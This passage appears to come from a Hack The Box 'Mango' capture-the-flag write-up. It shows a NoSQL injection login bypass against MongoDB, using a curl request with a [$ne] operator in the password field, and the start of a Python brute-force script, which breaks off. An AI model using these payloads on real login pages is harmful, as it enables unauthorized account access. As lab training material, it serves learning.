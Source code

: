 so I added that to `/etc/hosts` and on visiting that domain I found a login page.

![login_page](public/images/login_page_mango.jpg)


Everytime when I find login page I will try SQL Injection. But here box name suggest mango so database was `mongodb`. To understand more about mongodb visit [here](https://medium.com/better-programming/little-bobby-collections-how-to-write-a-mongodb-injection-ad58a4e2d754). Payload for mongodb requires Nosql Injection. After a lot of search I found an interesting git repo where I got the payload for Nosqli. You can find it [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection).

Now I injected NoSql Payload [$ne] in password field and it was vulnerable to NoSqli as I was redirected to `/home.php` page i.e 302 error.

```bash
root@gr41n73:~# curl -i -X POST http://staging-order.mango.htb/ -d "username=mango&password[\$ne]=^" -s -o /dev/null -v
......
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< location: home.php
< Content-Length: 4022
< Content-Type: text/html; charset=UTF-8
```
So I found the vulnerable point so I made a simple script with NoSql repo as

**Script:**

```python3
import requests
import string

username = 'mango'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
```